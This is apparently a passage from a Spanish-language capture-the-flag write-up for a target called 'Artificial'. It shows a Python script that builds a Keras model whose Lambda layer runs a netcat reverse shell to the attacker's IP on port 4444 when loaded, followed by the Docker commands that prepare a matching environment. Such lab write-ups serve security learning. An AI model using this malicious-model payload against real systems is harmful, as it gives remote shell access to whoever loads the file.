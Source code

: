 


# 💥 Explotación

-  Servicio: `Web`
    
-  Método: `Inyeccion de comandos`
    
-  Exploit: `___`
    
-  Resultado (shell/flag): `shell`

## Configuración de un entorno Docker para el exploit de TensorFlow

- Ambos `requirements.txt` y `Dockerfile` se descargaron en mi `Downloads`carpeta. Antes de crear el entorno Docker para el exploit, creé un script de carga útil en el mismo directorio.

**Paso 1: Crear el script de carga útil**

En mi `Downloads`carpeta, creé un archivo llamado `exploit.py`. Este script contiene mi carga útil de TensorFlow:
```bash 

import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <MY-IP> 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")

```


**Paso 2: Construir la imagen de Docker**

- Luego abrí una terminal en la `Downloads`carpeta y ejecuté:
```bash

sudo docker build -t artificial-exploit .

```


- Esto creó una imagen de Docker con Python 3.8 y TensorFlow 2.13.1 instalados, que coincidía con el entorno de destino.

**Paso 3: Ejecute el contenedor Docker con un volumen compartido**

- Para asegurar que el archivo de carga útil apareciera en mi sistema host, ejecuté:
 ```bash
 
 sudo docker run -it -v $(pwd):/app artificial-exploit
 
 ```

